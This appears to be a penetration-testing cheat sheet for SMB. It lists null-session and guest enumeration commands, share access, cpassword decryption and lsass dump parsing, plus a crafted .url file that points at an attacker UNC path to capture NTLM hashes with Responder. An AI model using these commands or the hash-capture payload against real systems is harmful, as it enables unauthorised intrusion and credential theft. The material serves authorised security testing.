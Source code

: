 # Server Message Block

#### Search For Known SMB Version Vulnerabilities

#### Check For Shares Using Null Sessions

```
smbclient -N -L //$ip/
```

```
cme smb $ip --shares -u "guest" -p ""
```

#### Test for URL File attacks

_Test for URL File attacks by creating a file called "@somename.url" with the following contents, upload, spin up smbserver to capture hash_

```
[InternetShortcut]
URL=blah
WorkingDirectory=blah
IconFile=\\EnterAttackerip\%USERNAME%.icon
IconIndex=1
```

_Run Responder to capture hashes_

```
/opt/Responder-3.1.3.0/Responder.py -I tun0
```

#### Test for read / upload access

_Attempt to download and view share contents using valid credential / anonymous login / null session_

```
smbmap -u guest -p "" -H $ip -A '.*' -R
```

#### Cpassword discovery

_Search "Groups.xml" for cpassword decryption_

```
gpp-decrypt cpassword
```

#### lsass.zip lsass.dmp

_search lsass.zip or lsass.dmp to use to dump credentials / keys / tickets_

```
pypykatz lsa minidump "lsass.zip"
```

#### Alternate Data Streams (ADS)

_test for alternate data streams after discovering 0 byte files_

```
allinfo filename
```

#### Check Password Policy

```
cme smb $ip --pass-pol -u guest -p ""
```

#### User Discovery

_Check For users using valid credential / anonymous login / null session_

```
cme smb $ip --users -u guest -p ""
```

```
cme smb $ip --rid-brute -u guest -p ""
```

#### Group discovery

_check for groups using valid credential / anonymous login / null session_

```
cme smb $ip --groups -u guest -p ""
```

#### Smbclient

_Interactively access the smb shares using smbclient_

```
smbclient //$ip/someshare -N
```

```
smbclient //$ip/someshare -U 'guest' -N
```

```
smbclient //$ip/someshare -U 'validuser' -p 'validpass'
```
